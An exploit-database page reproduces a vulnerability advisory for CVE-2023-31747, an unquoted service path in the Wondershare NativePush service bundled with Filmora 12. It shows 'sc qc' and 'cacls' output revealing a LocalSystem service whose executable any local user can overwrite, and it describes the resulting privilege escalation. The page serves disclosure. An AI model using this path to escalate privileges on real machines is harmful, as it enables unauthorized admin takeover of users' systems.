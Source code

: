 ```yaml
---
title: Filmora 12 Build 1.0.0.7 Unquoted Service Path exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:172464&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-20
fetch_date: 2025-10-04T11:36:49.395613
---
```


# Filmora 12 Build 1.0.0.7 Unquoted Service Path exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Filmora 12 Build 1.0.0.7 Unquoted Service Path CVE-2023-31747

2023-05-19 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:172464
Vendor Name: Filmora
Product Name: Filmora 12 version ( Build 1.0.0.7 )
Vendor Home Page: https://filmora.wondershare.com/
Affected Version(s): Filmora 12 version (Build 12.2.1.2088)
Vulnerability Type: Unquoted Service Path Vulnerability (CWE-428)
CVE Reference: CVE-2023-31747
Security Researcher: Thurein Soe

Vulnerability description:
Filmora is professional video editing software. Wondershare NativePush
Build 1.0.0.7 was part of Filmora 12 (Build 12.2.1.2088) Wondershare
NativePush Build 1.0.0.7 was installed while Filmora 12 was installed. The
service name "NativePushService" was vulnerable to unquoted service paths
vulnerability which led to full local privilege escalation in the affected
system as the service "NativePushService" was running as a system
privilege. Effectively, the local user is able to elevate to local admin.

C:\>sc qc NativePushService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: NativePushService
TYPE : 10 WIN32_OWN_PROCESS
START_TYPE : 2 AUTO_START
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME :
C:\Users\HninKayThayar\AppData\Local\Wondershare\Wondershare
NativePush\WsNativePushService.exe
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : Wondershare Native Push Service
DEPENDENCIES :
SERVICE_START_NAME : LocalSystem

C:\>cacls "C:\Users\HninKayThayar\AppData\Local\Wondershare\Wondershare
NativePush\WsNativePushService.exe"

C:\Users\HninKayThayar\AppData\Local\Wondershare\Wondershare
NativePush\WsNativePushService.exe

BUILTIN\Users:(ID)F

NT AUTHORITY\SYSTEM:(ID)F

BUILTIN\Administrators:(ID)F

HNINKAYTHAYAR\HninKayThayar:(ID)F
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)